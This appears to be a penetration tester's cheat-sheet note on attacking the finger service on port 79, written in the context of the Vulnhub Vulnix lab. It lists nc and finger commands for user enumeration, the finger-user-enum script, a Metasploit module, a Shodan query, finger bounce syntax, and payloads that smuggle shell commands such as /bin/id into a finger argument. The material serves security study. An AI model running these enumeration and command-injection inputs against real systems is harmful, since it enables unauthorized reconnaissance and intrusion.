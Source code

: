 #user-enumeration 
Linux finger port is mainly used for checking if the users are available on the target or not 
reference - [[walkthroughs/Vulnhub/Vulnix/vulnix|vulnix]]

### Basic enumeration
```
nc -vn <IP> 79
echo "root" | nc -vn <IP> 79
```

### User enumeration
```
finger @<Victim>       #List users
finger admin@<Victim>  #Get info of user
finger user@<Victim>   #Get info of user
```

we can also use the pentestmonkey script:
`https://pentestmonkey.net/tools/user-enumeration/finger-user-enum`
```
finger-user-enum.pl -U users.txt -t 10.0.0.1
finger-user-enum.pl -u root -t 10.0.0.1
finger-user-enum.pl -U users.txt -T ips.txt
```

### Metasploit uses more tricks than Nmap
```
use auxiliary/scanner/finger/finger_users
```

### Shodan
- `port:79 USER`

### Command execution
```
finger "|/bin/id@example.com"
finger "|/bin/ls -a /@example.com"
```

# Finger bounce:
```
finger user@host@victim
finger @internal@external
```
for more info: 
`https://securiteam.com/exploits/2BUQ2RFQ0I/`
